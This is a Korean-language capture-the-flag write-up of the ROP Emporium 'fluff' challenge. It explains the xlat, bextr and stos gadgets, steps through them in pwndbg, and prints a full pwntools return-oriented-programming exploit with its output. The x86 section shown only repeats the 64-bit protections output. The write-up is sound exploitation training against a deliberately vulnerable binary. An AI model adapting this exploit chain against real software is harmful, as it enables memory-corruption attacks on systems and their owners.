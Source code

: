 # [fluff](https://ropemporium.com/challenge/fluff.html)
<br />

**Description:**
> The concept here is similar to the write4 challenge, although we may struggle to find simple gadgets that will get the job done.

<br />
<br />

# x86_64

**Binary Protections:**
```yaml
fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

[*] '/home/kali/ROP/fluff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

해당 문제에서는 이전 문제에서 유용하게 사용한 `mov` 가젯을 제공하지 않습니다. 대신 `bextr` 등 생소한 가젯들을 제공하며, 제공된 가젯으로 `"flag.txt"`를 만들어 인자로 전달하면 풀리는 문제입니다.

먼저 풀이를 위해 필요한 가젯을 수집합니다.

<br />

```yaml
$ ROPgadget --binary fluff | grep rdi
0x00000000004006a3 : pop rdi ; ret
```
```yaml
$ objdump -d fluff
Disassembly of section .text:
...
0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       bf c4 06 40 00          mov    $0x4006c4,%edi
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    %rbp
  400627:       c3                      ret

0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   %ds:(%rbx)
  400629:       c3                      ret
  40062a:       5a                      pop    %rdx
  40062b:       59                      pop    %rcx
  40062c:       48 81 c1 f2 3e 00 00    add    $0x3ef2,%rcx
  400633:       c4 e2 e8 f7 d9          bextr  %rdx,%rcx,%rbx
  400638:       c3                      ret
  400639:       aa                      stos   %al,%es:(%rdi)
  40063a:       c3                      ret
  40063b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```
- `pop rdi ; ret = 0x4006a3`
- `print_file_plt = 0x400510`
- `xlat ; ret = 0x400628`
- `pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret = 0x40062a`
- `stos ; ret = 0x400639`

<br />

> [!NOTE]
> [xlat](https://www.felixcloutier.com/x86/xlat:xlatb) 는 `[rbx + al] = al`을 수행합니다. 즉, `rbx`로부터 `al`만큼 떨어진 주소의 1바이트를 `al`에 저장합니다.
>
> [bextr](https://www.felixcloutier.com/x86/bextr) 의 형식은 `BEXTR dest, src, ctrl`이고, `dest = (src >> Start) & ((1 << Length) - 1)`를 수행합니다. `ctrl[7:0]`은 `start`, `ctrl[15:8]`은 `length`를 의미합니다. 따라서 `bextr`은 `src`를 `start`에서부터 `length`만큼 비트를 자르고 제로확장을 하여 `dest`에 저장합니다.
> ```yaml
> > bextr rbx, rcx, rdx
> rcx = 0xDEADBEEFDEADBEEF, rdx = 0x0804(start=4, len=8)
> Input : 1101111010101101101111101110111111011110101011011011111011101111 = 0xDEADBEEFDEADBEEF
>                                                             |------|
>                                                                 \
>                                                                  \
>                                                                   \
>                                                                    v
>                                                                 |------|
> Output: 0000000000000000000000000000000000000000000000000000000011101110 = 0x00000000000000EE
> ```
> [stos](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq) 는 레지스터의 값을 메모리에 저장하고 , `rdi`를 자동으로 증가시키는 역할을 수행합니다. `stos` 종류에 따라 저장 단위와 증가량이 달라집니다.


<br />

```bash
$ r2 fluff
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x00400520]> is
[Symbols]
nth paddr      vaddr      bind   type   size lib name                                   demangled
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
24  ---------- 0x00601038 LOCAL  SECT   0        .bss
...

[0x00400520]> / f
0x004003c4 hit0_0 .libfluff.so__gmon_s.
...
[0x00400520]> / l
0x00400239 hit1_0 ./lib64/ld-linux-x8.
...
[0x00400520]> / a
0x004003d6 hit2_0 .uff.so__gmon_start__print_file.
...
[0x00400520]> / g
0x004003cf hit3_0 .libfluff.so__gmon_start__prin.
...
[0x00400520]> / .
0x0040024e hit4_0 ./ld-linux-x86-64.so.2.
...
[0x00400520]> / t
0x00400192 hit5_0 .Ptd@.
...
[0x00400520]> / x
0x00400246 hit6_0 ./lib64/ld-linux-x86-64.so.2.
...
```
위에서 구한 가젯 조합으로 `bss`에 1바이트씩 문자열을 저장할 수 있습니다. 하지만 해당 바이너리에는 `"flag.txt"` 문자열이 없으므로, 문자열을 직접 구해야 합니다. 문자열 주소는 `radare2`로 쉽게 찾을 수 있습니다.
<br />

위 가젯들로 문자열 `"f"`를 추출하겠습니다.

<br />

```yaml
$ gdb fluff -q
...
pwndbg> start
...

pwndbg> x/s 0x004003c4
0x4003c4:       "fluff.so"
pwndbg> x/a 0x004003c4
0x4003c4:       0x6f732e6666756c66
pwndbg> i r $al
al             0xb                 11
pwndbg> set $rcx=0x4003c4 - 11
pwndbg> set $rdx=0x2000
pwndbg> set $rip=0x400633
pwndbg> si
...
pwndbg> set $rip=0x400628
pwndbg> si
...
pwndbg> i r $al
al             0x66                102
```
필요한 레지스터를 세팅하고 `bextr`, `xlat`를 순서대로 호출하면 `al`에 `[rcx]`의 1바이트가 저장된 것을 알 수 있습니다. 이 방법으로 `"flag.txt"`를 만들 수 있습니다.

> [!Caution]
> `xlat`은 `[rbx + al]`에 위치한 1바이트를 `al`에 저장합니다. 위 디버깅 중 레지스터를 세팅하기 전 `al`의 초기 값은 `11`임을 알 수 있습니다. 이 부분을 고려하지 않고 공격 코드를 작성하면 원하는 문자열이 만들어지지 않으므로 주의해야 합니다.

<br />
<br />

```python
from pwn import *

context.log_level = 'error'
context.bits = 64

p = process('./fluff')

def write_byte():
    al = 11  # initial al = 11
    pay = flat(pop_rdi, bss)
    for c in target:
        rcx = flag_addr[c]-al-0x3ef2
        pay += flat(bextr, 0x2000, rcx, xlat, stos)

        al = ord(c)
    return pay

bextr = 0x40062a  # pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
xlat = 0x400628
stos = 0x400639

pop_rdi = 0x4006a3
bss = 0x601038
print_file = 0x400510

flag_addr = {
  'f': 0x004003c4, 'l': 0x00400239,
  'a': 0x004003d6, 'g': 0x004003cf,
  '.': 0x0040024e, 't': 0x00400192,
  'x': 0x00400246
}

target = 'flag.txt'

pay = b'A'*40
pay += write_byte()
pay += flat(pop_rdi, bss, print_file)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```

<br />
<br />

# x86

**Binary Protections:**
```yaml
fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

[*] '/home/kali/pico/fluff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />
